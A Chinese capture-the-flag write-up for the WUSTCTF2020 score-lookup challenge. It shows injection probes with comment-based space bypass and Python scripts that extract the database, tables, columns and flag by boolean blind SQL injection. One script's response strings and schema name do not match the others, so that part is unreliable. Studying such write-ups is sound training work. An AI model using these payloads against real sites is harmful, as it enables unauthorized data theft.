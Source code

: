 # \[WUSTCTF2020]颜值成绩查询

## \[WUSTCTF2020]颜值成绩查询

## 考点

* 注入点寻找与判断
* 布尔盲注

## wp

`?stunum=1`得到admin是100分

`?stunum=2-1`得到admin是100分，是数字型注入

`?stunum=1 order by 4`返回学号不存在

`?stunum=1 order by 1`也是返回学号不存在，可能过滤了一些字符串

`?stunum=1/**/order/**/by/**/2`返回100分，过滤了空格

`?stunum=1/**/order/**/by/**/3`返回100分

`?stunum=1/**/order/**/by/**/4`返回不存在，说明有3列

`?stunum=1/**/union/**/select/**/1,2,3`返回不存在

`?stunum=1/**/ununionion/**/selselectect/**/1,2,3`返回不存在，可能不是联合注入

`?stunum=0^1`返回100分，尝试布尔盲注

代码如下，数据库为ctf

```javascript
import requests

url = 'http://6d0aeac9-14ec-4025-b4ea-4a60a975b44a.node4.buuoj.cn:81/?stunum=' 

def get_database():
    flag = ''
    for i in range(1, 50):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            payload = f"0^(ascii(substr((select(database())),{i},1))>{mid})"
            url_t = url + payload
            r = requests.get(url=url_t)
            
            if 'not exists' in r.text:
                high = mid
            if 'your score is' in r.text:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
```

表：flag,score

```javascript
def get_table():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            payload = f"0^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='geek')),{i},1))>{mid})"

            url_t = url + payload
            r = requests.get(url=url_t)
            
            if 'ERROR' in r.text:
                high = mid
            if 'Click others' in r.text:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
```

flag表：flag,value

```javascript
def get_column():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            payload = f"0^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),{i},1))>{mid})"

            url_t = url + payload
            r = requests.get(url=url_t)
            
            if 'not exists' in r.text:
                high = mid
            if 'your score is' in r.text:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
```

得到flag，再逆序一下就可以

```javascript
def get_flag():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            payload = f"0^(ascii(substr(reverse((select(group_concat(flag,value))from(flag))),{i},1))>{mid})"
            url_t = url + payload
            r = requests.get(url=url_t)
            
            if 'not exists' in r.text:
                high = mid
            if 'your score is' in r.text:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
```

![](../.gitbook/assets/image\_4s7NbbnTLH54EnXnN6E3ey.png)

## 小结

1. 注入类型要多进行尝试
